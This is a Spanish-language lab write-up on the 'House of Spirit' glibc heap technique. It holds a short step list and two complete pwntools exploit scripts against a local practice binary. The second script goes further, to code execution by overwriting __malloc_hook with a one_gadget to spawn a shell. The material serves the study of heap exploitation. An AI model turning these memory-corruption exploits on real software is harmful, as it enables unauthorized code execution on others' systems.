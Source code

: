 # House Of Spirit

En esta ocasion se almacena un array de objetos llamado `m_array` en el stack con dos campos: `name` y `ptr`. Por un desbordamiento al leer el nombre se puede sobreescribir el campo `ptr` que es la direccion de memoria que se le pasa a `free` al liberar un chunk para un indice especifico.

Pasos:
1. Crear un chunk falso en la estructura `user`, donde `user.age` sera el campo `size`=0x70 para que nextchunk sea `user.username`.
2. Crear un nextchunk falso para A en `user.username` con  0x10 < `size` < 0x1000 para pasar las verificaciones de sanidad.
3. Reservar un chunk A de tamaño arbitrario y sobreescribir `m_array[0].ptr` con la direccion de nuestro chunk falso en `user`.
4. Liberar el chunk A, provocando que el chunk falso en `user` vaya a una fastbin.
5. Reservar un chunk B de tamaño 0x60 para obtener el chunk en la fastbin.
6. Sobreescribir `target`.

## Exploit
``` py
from pwn import *
r = process("./house_of_spirit")
libc = ELF("../.glibc/glibc_2.30_no-tcache/libc.so.6",checksec=False)

index = 0

def malloc(size,data,name):
    global index
    r.sendlineafter(b">",b"1")
    r.sendlineafter(b"size:",str(size).encode())
    r.sendlineafter(b"data:",data)
    r.sendlineafter(b"name:",name)
    index += 1
    return index - 1

def free(idx):
    r.sendlineafter(b">",b"2")
    r.sendlineafter(b"index:",str(idx).encode())

r.recvuntil(b"@ ")
libc.address = int(r.recv(14).strip(),16) -  0x6faf0

r.recvuntil(b"@ ")
heap = int(r.recv(10).strip(),16)

# Fake chunk->size
r.sendlineafter(b"age:",str(0x70).encode())

# Fake nextchunk->prevsize and nextchunk->size
r.sendlineafter(b"username:",p64(0) + p64(0x1234))

# chunksize_nomask (chunk_at_offset (p, size)) > CHUNK_HDR_SZ
# chunksize (chunk_at_offset (p, size)) < av->system_mem

# Create chunk A with arbitrary size to overwrite m_array.ptr with m_array.name
a = malloc(0x30,b"",p64(0) + p64(0x602020))

# m_array[0].ptr = 0x602010 (user, AKA fake chunk)
free(a)

# Alloc chunk B in the .bss section and overwrite "target"
b = malloc(0x60,b"A"*0x40 + b"_s1s1fo_",b"osaka")

r.sendlineafter(b">",b"3")
r.interactive()
```

## RCE
No me quede contento con esa direccion de libc sin usar :)

``` py
from pwn import *
r = process("./house_of_spirit")
libc = ELF("../.glibc/glibc_2.30_no-tcache/libc.so.6",checksec=False)

index = 0

def malloc(size,data,name):
    global index
    r.sendlineafter(b">",b"1")
    r.sendlineafter(b"size:",str(size).encode())
    r.sendlineafter(b"data:",data)
    r.sendlineafter(b"name:",name)
    index += 1
    return index - 1

def free(idx):
    r.sendlineafter(b">",b"2")
    r.sendlineafter(b"index:",str(idx).encode())

r.recvuntil(b"@ ")
libc.address = int(r.recv(14).strip(),16) -  0x6faf0

r.recvuntil(b"@ ")
heap = int(r.recv(10).strip(),16)

r.sendlineafter(b"age:",b"")
r.sendlineafter(b"username:",b"")

# House of Spirit => fastbin dup
a = malloc(0x60,b"",b"a")
b = malloc(0x60,b"",b"b")
c = malloc(0x60,b"",b"c"*8 + p64(heap + 0x10))

free(a)
free(b)
free(c)

'''

 originally you want __malloc_hook - 0x10 but in order to bypass 
  fastbin_index (chunksize (victim)) != idx
 (__malloc_hook - 0x23)->size = 0x7f (valid size in the fast chunk size range)

'''

a = malloc(0x60,p64(libc.symbols['__malloc_hook'] - 0x23),b"a")

malloc(0x60,b"",b"b")
malloc(0x60,b"",b"a")

one_gadget = libc.address + 0xe1fa1 

# Overwrite __malloc_hook
mh = malloc(0x60,b"A" * 0x13 + p64(one_gadget),b"")

# Call system("/bin/sh")
r.sendlineafter(b">",b"1")
r.sendlineafter(b"size:",b"32")

r.interactive()
```




